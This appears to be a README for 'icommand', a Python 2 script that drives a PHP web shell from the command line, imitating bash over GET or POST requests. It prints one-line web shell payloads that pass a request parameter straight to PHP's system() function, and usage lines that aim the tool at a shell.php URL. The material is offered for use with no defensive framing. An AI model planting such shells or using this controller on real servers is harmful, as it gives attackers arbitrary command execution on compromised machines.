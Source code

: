 icommand - command controller for PHP system function
---
### Info: ###
icommand is a command controller for PHP _program execution functions_ like system, passthru, exec and etc ...  
The script tries to simulate Linux bash as it works from CLI  
It sends requests to the server through urllib/urllib2 [Python][] modules  

* icommand works for **POST** and **GET** requests:   
	-	`<?php system($_GET['cmd']); ?>`  
	- `<?php system($_POST['cmd']); ?>`

### Usage: ###
- --url is a positional argument within GET and POST requests:  
  python icommand.py --url http://testserver.com/shell.php?cmd=  
  python icommand.py --url http://testserver.com/shell.php --method POST --parameter cmd

[Python]: http://www.python.org/download/
* __p.s.__ [Python][] v2.6 or v2.7 is required for running this script.